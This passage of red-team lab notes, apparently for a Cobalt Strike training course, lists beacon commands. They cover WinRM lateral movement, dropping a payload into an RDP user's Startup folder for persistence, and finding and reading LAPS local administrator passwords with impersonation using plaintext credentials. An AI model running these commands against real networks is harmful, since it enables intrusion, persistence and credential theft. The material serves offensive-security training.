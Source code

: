 ```
	beacon> remote-exec winrm sql01.mydomain.local whoami; hostname
	beacon> jump winrm64 sql01.mydomain.local pivot-sql-1

- List \\tsclient\c the C: drive on the origin machine of the RDP session:
	beacon> ls \\tsclient\c

- What we can do is upload a payload, such as a bat or exe to jean.wise's startup folder. The next time they login, it will execute and we get a shell:
	beacon> cd \\tsclient\c\Users\jean.wise\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
	beacon> upload C:\Payloads\pivot.exe
	beacon> ls

```

#### Local Administrator Password Solution

```
- There are a few methods to hunt for the presence of LAPS. If LAPS is applied to a machine that you have access to, AdmPwd.dll will be on disk:
	beacon> run hostname
	beacon> ls C:\Program Files\LAPS\CSE
	
- Find GPOs that have "LAPS" or some other descriptive term in the name:
	beacon> powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

- Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property):
	beacon> powershell Get-DomainObject -SearchBase "LDAP://DC=dev,DC=cyberbotic,DC=io" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname

- If we can find the correct GPO, we can download the LAPS configuration from the gpcfilesyspath:
	beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine
	beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol

- Parse-PolFile from the GPRegistryPolicyParser package can be used to convert this file into human-readable format:
	PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

- The native LAPS PowerShell cmdlets can be used if they're installed on a machine we have access to:
	beacon> powershell Get-Command *AdmPwd*

- Find-AdmPwdExtendedRights will list the principals allowed to read the LAPS password for machines in the given OU:
	beacon> run hostname
	beacon> getuid
	beacon> powershell Find-AdmPwdExtendedRights -Identity Workstations | fl

- Since Domain Admins can read all the LAPS password attributes, Get-AdmPwdPassword will do just that:
	beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

- Make a token (or use some other method of impersonation) for a user in the 1st Line Support group:
	beacon> make_token DEV\jking Purpl3Drag0n
	beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
	beacon> rev2self
	beacon> make_token .\lapsadmin P0OPwa4R64AkbJ
	beacon> ls \\wkstn-2\c$

```